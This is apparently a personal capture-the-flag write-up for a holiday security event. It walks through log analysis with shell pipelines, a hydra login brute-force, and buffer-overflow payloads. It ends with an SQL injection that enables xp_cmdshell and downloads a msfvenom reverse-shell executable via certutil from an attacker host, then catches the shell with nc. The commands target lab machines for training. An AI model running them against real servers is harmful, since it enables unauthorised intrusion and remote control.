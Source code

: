 # Not including the days with copy paste solutions

## Day 2 (Log Analysis)

![image](https://github.com/michaelwang3668/ctf-writeups/assets/75542248/4c531c44-e8db-4bd0-9386-69eaf47d95a1)

![image](https://github.com/michaelwang3668/ctf-writeups/assets/75542248/55a7560a-da16-4b21-a40d-3c7139abce43)

![image](https://github.com/michaelwang3668/ctf-writeups/assets/75542248/df85fff5-553f-4b1f-ab72-42da868f0957)

## Day 4 (Brute-forcing)
Instead of using their wfuzz wordlist, I tried writing my own payload with hydra:

``` hydra -L usernames.txt  -P passwords.txt 10.10.229.119 http-post-form "/login.php:username=^USER^&password=^PASS^:Please enter the correct credentials" -V -f ```

## Day 6 (Memory Corruption)

Gold payload:
```AAAAAAAAAAAAXXXX```

Star payload:
```AAAAAAAAAAAAAAAAAAAAAAAAAAAAd```

![image](https://github.com/michaelwang3668/ctf-writeups/assets/75542248/bd55a709-e224-4462-9b88-402839baf887)

The offset to the gold is 12 bytes, the offset to the inventory is 28 bytes. We know the id of the star is "d" because of the shop.

![image](https://github.com/michaelwang3668/ctf-writeups/assets/75542248/681ab864-920c-4e48-af7b-90865cba8af2)

## Day 7 (Log Analysis)

How many unique IP addresses are connected to the proxy server?

``` cat access.log | cut -d ' ' -f2 | sort | uniq | wc -l ```

How many unique domains were accessed by all workstations?

``` cat access.log | cut -d ' ' -f3 | cut -d ':' -f1 | sort | uniq | wc -l ```

What status code is generated by the HTTP requests to the least accessed domain?

``` cat access.log | cut -d ' ' -f3 | cut -d ':' -f1 | sort | uniq -c | sort -n | head -n 1 ```

``` cat access.log | grep partnerservices.getmicrosoftkey.com ```

Based on the high count of connection attempts, what is the name of the suspicious domain?

```cat access.log | cut -d ' ' -f3 | cut -d ':' -f1 | sort | uniq -c | sort -n | tail```

What is the source IP of the workstation that accessed the malicious domain?

``` cat access.log | grep frostlings.bigbadstash.thm | cut -d ' ' -f2  ```

How many requests were made on the malicious domain in total?

``` cat access.log | grep frostlings.bigbadstash.thm | wc -l ```

Having retrieved the exfiltrated data, what is the hidden flag?

``` cat access.log | grep frostlings.bigbadstash.thm | cut -d ' ' -f 5 | cut -d '=' -f2 | base64 -d ```

## Day 10 (SQL Injection)

Manually navigate the defaced website to find the vulnerable search form. What is the first webpage you come across that contains the gift-finding feature?

``` /giftsearch.php ```

Analyze the SQL error message that is returned. What ODBC Driver is being used in the back end of the website?

``` http://10.10.199.212/giftresults.php?age=child%27&budget=0 ```

![image](https://github.com/michaelwang3668/ctf-writeups/assets/75542248/384243d3-6f03-43ab-b9d2-102df635013f)

Inject the 1=1 condition into the Gift Search form. What is the last result returned in the database?

``` http://10.10.199.212/giftresults.php?age=%27%20or%201=1--&budget=0 ```

![image](https://github.com/michaelwang3668/ctf-writeups/assets/75542248/ed5ff0ad-9844-477c-8dba-7eb3c645b4c1)

Enabling xp_cmdshell:

``` http://10.10.199.212/giftresults.php?age=%27;%20EXEC%20sp_configure%20%27show%20advanced%20options%27,%201;%20RECONFIGURE;%20EXEC%20sp_configure%20%27xp_cmdshell%27,%201;%20RECONFIGURE;%20-- ```

Creating the reverse shell payload:

``` msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.254.227 LPORT=1234 -f exe -o reverse.exe ```

Hosting a webserver to get the payload onto target machine:

``` python3 -m http.server 8000 ```

Getting the payload onto target machine:

``` http://10.10.199.212/giftresults.php?age=%27;%20EXEC%20xp_cmdshell%20%27certutil%20-urlcache%20-f%20http://10.10.254.227:8000/reverse.exe%20C:\Windows\Temp\reverse.exe%27;%20-- ```

We get a hit:

![image](https://github.com/michaelwang3668/ctf-writeups/assets/75542248/2c4cd87a-6a85-4089-8894-6ba1c12e0e06)

Catching the reverse shell:

``` nc -nvlp 1234 ```

``` 10.10.199.212/giftresults.php?age='; EXEC xp_cmdshell 'C:\Windows\Temp\reverse.exe'; -- ```

Get a hit:

![image](https://github.com/michaelwang3668/ctf-writeups/assets/75542248/7ce1c230-088a-4e70-842c-92be43114f04)
